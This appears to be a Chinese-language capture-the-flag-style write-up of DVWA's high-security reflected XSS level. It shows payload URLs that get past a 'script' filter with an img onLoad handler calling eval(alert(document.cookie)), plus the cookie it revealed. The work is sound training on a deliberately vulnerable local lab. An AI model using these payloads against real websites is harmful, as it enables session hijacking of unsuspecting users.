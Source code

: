# Reflected XSS

> The developer now believes they can disable all JavaScript by removing the pattern "<s*c*r*i*p*t".

剛開始 try 了一陣子想要塞 <script> 進去，徒勞無功，就先去休息了

既然封殺了 `script`，那只好找其他活路

原本是想試試看載入外部 js file 的方向，但還沒試成功 

先試試看 img tag，看有沒有辦法載入其他資源


```
http://dvwa.localtest/vulnerabilities/xss_r/?name=😎<img src='https://picsum.photos/200/300'>😎
```
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/9871677b-37dc-4bf2-906d-5acf3792bb1a/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220218%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220218T123807Z&X-Amz-Expires=86400&X-Amz-Signature=fd26e2a34b4032d7a1f0569b8d0745eeac7673753d10d7dcc325ea447edd3000&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

但發現用 onLoad 搭配 eval 也值得一試
```javascript
onLoad="eval(alert(1))"
```

```
http://dvwa.localtest/vulnerabilities/xss_r/?name=<img src='https://picsum.photos/200/300' onLoad="eval(alert(1))">
```

### Done

```javascript
onLoad="eval(alert(document.cookie))"
```

```
http://dvwa.localtest/vulnerabilities/xss_r/?name=<img src='https://picsum.photos/200/300' onLoad="eval(alert(document.cookie))">
```
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/ba183bd6-0efd-4c03-b329-6c6360a202c4/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220218%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220218T123734Z&X-Amz-Expires=86400&X-Amz-Signature=40a12034b3bfc861ef0c14f05fbfddd389da43d4209741558163f330ad28bc8b&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

```
PHPSESSID=9e58103f6b5dbdb3ef5f2c726e204e76; security=high
```

### impossible

如果用在 impossible 難度則是無效

